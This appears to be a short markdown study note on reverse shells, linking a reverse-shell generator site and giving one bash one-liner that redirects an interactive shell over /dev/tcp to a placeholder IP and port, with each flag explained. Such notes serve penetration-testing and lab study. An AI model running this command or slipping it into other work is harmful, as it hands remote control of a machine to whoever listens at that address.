# Reverse Shell

[https://www.revshells.com/](https://www.revshells.com/)

```bash
# Linux
bash -c 'bash -i >& /dev/tcp/<ip address>/<port number> 0>&1'

# -c : Allows you to provide a command as an string argument
# -i : Launches an interactive Bash shell.
# >& : Redirect 'both' standard input and putput to TCP IP address and port
# 0>&1 : Redirect standard input (0) to the same place as standard output(1)  
```
